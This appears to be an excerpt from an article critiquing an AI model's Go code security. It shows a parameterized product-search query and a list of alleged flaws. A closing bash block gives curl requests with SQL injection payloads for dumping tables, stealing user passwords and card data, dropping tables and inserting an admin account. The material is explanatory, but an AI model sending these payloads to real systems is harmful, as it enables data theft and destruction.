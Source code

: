 ```go
}

func (r *ProductRepository) SearchProducts(dto *ProductSearchDto) ([]*ProductResponseDto, error) {
    // Proper parameterized query
    query := `
        SELECT id, name, price, description, (stock > 0) as in_stock 
        FROM products 
        WHERE name ILIKE $1 
        AND ($2::uuid IS NULL OR category_id = $2::uuid)
        AND active = true
        ORDER BY name
        LIMIT $3 OFFSET $4
    `
    
    rows, err := r.db.Query(query, "%"+dto.Query+"%", dto.CategoryID, dto.Limit, dto.Offset)
    if err != nil {
        return nil, fmt.Errorf("search products query failed: %w", err)
    }
    defer rows.Close()
    
    var results []*ProductResponseDto
    for rows.Next() {
        dto := &ProductResponseDto{}
        err := rows.Scan(&dto.ID, &dto.Name, &dto.Price, &dto.Description, &dto.InStock)
        if err != nil {
            return nil, fmt.Errorf("scan product failed: %w", err)
        }
        results = append(results, dto)
    }
    
    return results, nil
}
```

**GPT-5's Go Security Violations:**
1. **Rejected Parameterized Queries:** Used dangerous string concatenation instead
2. **No Input Validation:** Accepted any string input without sanitization
3. **Exposed Raw Entities:** Returned database entities instead of DTOs
4. **No Error Handling:** Raw database errors exposed to clients

**The Complete Attack Surface GPT-5 Would Create:**
```bash
# GPT-5's Go implementation would allow all these attacks:

# 1. Complete database extraction
curl -X POST "http://target:8080/products/search" \
  -d '{"query": "' UNION SELECT id,name,cost,supplier_secret,admin_notes FROM products--"}'

# 2. Cross-table data theft
curl -X POST "http://target:8080/products/category" \
  -d '{"category_id": "1 UNION SELECT username,password,email,credit_card FROM users"}'

# 3. Database destruction
curl -X POST "http://target:8080/products/search" \
  -d '{"query": "'; DROP TABLE products; DROP TABLE orders; DROP TABLE users; --"}'

# 4. Privilege escalation
curl -X POST "http://target:8080/products/search" \
  -d '{"query": "'; INSERT INTO admin_users (username, password) VALUES ('hacker', 'password123'); --"}'
```
